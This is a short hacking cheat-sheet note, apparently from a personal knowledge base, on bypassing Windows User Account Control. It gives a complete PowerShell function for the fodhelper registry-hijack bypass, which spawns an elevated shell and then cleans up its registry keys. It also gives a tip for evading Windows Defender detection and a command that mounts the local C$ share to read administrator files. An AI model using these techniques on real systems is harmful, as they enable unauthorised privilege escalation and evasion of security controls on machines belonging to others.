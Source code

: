# bypass UAC with administrators group
need session in interactive process.

## fodhelper bypass
~/kb/hacking/windows/uacbypass/fodhelper.ps1
pass in argument to `-program` or it gets detected by windows defender trying to spawn powershell. use cmd within interactive gui session.

https://pentestlab.blog/2017/06/07/uac-bypass-fodhelper/
```powershell
function FodhelperBypass() {
  Param ( [String]$program = "cmd /c start powershell.exe" #default )
  #Create registry structure
  New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
  New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
  Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $program -Force
  #Perform the bypass
  Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
  #Remove registry structure
  Start-Sleep 3
  Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
}
# run it
FodhelperBypass
FodhelperBypass -program cmd
```

## uacme bypass
https://github.com/hfiref0x/UACME
compilation required - many build steps

## read files quickly using smb shares
mount local fileshare to read administrator's files.
authentication is different for localhost.
```powershell
net use Z: \\127.0.0.1\c$
```
